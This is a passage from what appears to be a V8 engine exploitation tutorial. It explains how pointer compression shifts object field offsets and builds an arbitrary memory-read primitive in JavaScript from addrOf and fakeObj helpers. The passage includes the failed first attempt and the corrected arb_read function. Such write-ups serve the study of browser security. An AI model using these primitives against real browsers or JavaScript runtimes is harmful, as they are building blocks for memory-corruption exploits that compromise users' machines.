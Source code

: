 ```javascript
let fake = fakeObj(addrOf(arb_rw_arr) - 0x20n);
```

then different from V8 below version 8, where we would put our elements at `arb_rw_arr[2]`, since the `map` and `properties` are 32 bit each, the `elements` would be placed at the lower bits at `arb_rw_arr[1]`

this also applies to the offset when reading, where the `map` and `length` in `FixedDoubleArray` is both 32 bit, the offset would be only 0x8 instead of 0x10 as previously shown in the diagram.

```javascript
arb_rw_arr[1] = itof(addr - 0x8n);
```

then when we treat `fake` as an array, such as `fake[0]`, the V8 will look at the map and confirmed that it is an `JSArray` of type float and then read at the raw values at `*(elements - 0x10)`.

```javascript
return ftoi(fake[0]);
```

let's put it into the test

```javascript
console.log("[*] Result: 0x" + arb_read(addrOf(arb_rw_arr)).toString(16));
dp(arb_rw_arr)
```

however it failed,

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

I tried changing the address to other ones, but it returns the same result

we expect result to contain the map | properties of `arb_rw_arr` but instead we get what looks like a higher bits of lib address. the reason for this is because our fake object only fakes the `map` and `elements` field and completely ignore the `properties` and `length` fields.&#x20;

so let's fix that, I set the `properties` to 0x725 which seems to be constant throughout the objects I debug printed, for the `length` it could as arbitrary as you want. we end up with this script for this primitive:

```javascript
var arb_rw_arr = [(itof(0x725n << 32n)) + (float_arr_map), 1.2, 1.3, 1.4];
console.log("[*] arb_rw_arr: 0x" + addrOf(arb_rw_arr).toString(16));

function arb_read(addr) {
    if (addr % 2n == 0)
        addr += 1n;

    let fake = fakeObj(addrOf(arb_rw_arr) - 0x20n);
    arb_rw_arr[1] = itof(0x8n << 32n) + itof(addr - 0x10n);
    return ftoi(fake[0]);
}
```
